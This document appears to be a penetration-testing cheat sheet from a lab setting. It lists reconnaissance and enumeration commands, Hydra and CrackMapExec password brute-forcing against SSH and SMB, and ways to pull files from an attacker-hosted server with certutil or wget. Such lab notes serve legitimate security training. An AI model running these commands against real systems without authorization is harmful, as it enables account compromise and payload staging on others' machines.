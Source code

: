 ﻿

# 💻 Essential Commands and File Transfers

---

## 🔍 Network and Host Discovery

- `ifconfig` — Show your **Kali VM IP** (e.g., 10.0.2.15).
- `sudo nano /etc/hosts` — Add or change local **hostname-to-IP mappings** that override DNS.
- `netdiscover -r 10.0.2.0/24` — Sweep the subnet to **discover live hosts** (ARP scan for local networks).
- `nmap -T4 -p- -A 10.0.2.4` — Aggressive **full-TCP-port scan** (1–65535) with OS/version/script detection and traceroute.
- `nmap -sV --script=vuln 10.0.2.4` — Service version + vulnerability script scan (targeted follow-up).

> **Note:** Always use the `-oN` parameter to save nmap output to a text file:
> `nmap -T4 -p- -A 10.0.2.4 -oN test.txt`

- `nikto -h http://10.0.2.4` — Quick **webserver/vuln & misconfiguration check** (HTTP/HTTPS).
- `smbclient -L //10.0.2.4` — List **SMB shares** (anonymous if no `-U` user supplied).
- `smbclient //10.0.2.4/Share -U username` — Connect interactively to an SMB share.
- `ssh username@10.0.2.4` — Attempt **SSH login**.
- `hydra -l root -P /usr/share/wordlists/metasploit/… ssh://*ip address* -t 4 -V` — **Hydra** brute-forces the SSH password of a target system.
- `gobuster dir -u http://10.0.2.4 -w /usr/share/wordlists/dirb/common.txt -x php,txt,zip` — **Brute-force directories/files** on webserver (CLI alternative to DirBuster).
- `crackmapexec smb 10.0.2.0/24 -u users.txt -p passwords.txt --shares` — **SMB credential brute-forcing**.
- `dirb http://10.0.2.4 /usr/share/wordlists/dirb/common.txt -X .php,.txt` — Another directory buster usage (find hidden files/dirs).
- `ffuf -u http://10.0.2.4/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-small-directories.txt -t 40 -mc 200 -o ffuf_dirs.json -of json` — Finds directories/files under the web root.
- `wpscan --url http://target --enumerate` — **WordPress Enumeration**.

---

## 📥 File Transfers

| Method | Command / Usage | Description |
| :--- | :--- | :--- |
| **HTTP (Python 2)** | `python -m SimpleHTTPServer 80` | Starts a quick HTTP server in the current directory. |
| **HTTP (Python 3)** | `python3 -m http.server 80` | Starts a quick HTTP server in the current directory. |
| **Browser** | `http://10.10.10.10/file.txt` | Open the URL directly in a browser to download the file. |
| **FTP (pyftpdlib)** | `python -m pyftpdlib 21` (Attacker) $\rightarrow$ `ftp 10.10.10.10` (Client) | Run a lightweight FTP server on the host and connect from the target to transfer files. |
| **Certutil (Windows)** | `certutil.exe -urlcache -f http://10.10.10.10/file.txt file.txt` | Uses the built-in Windows `certutil` to download a remote file and save it locally. |
| **Linux (wget)** | `wget http://10.10.10.10/file.txt` | Command-line download of a file from an HTTP server. |

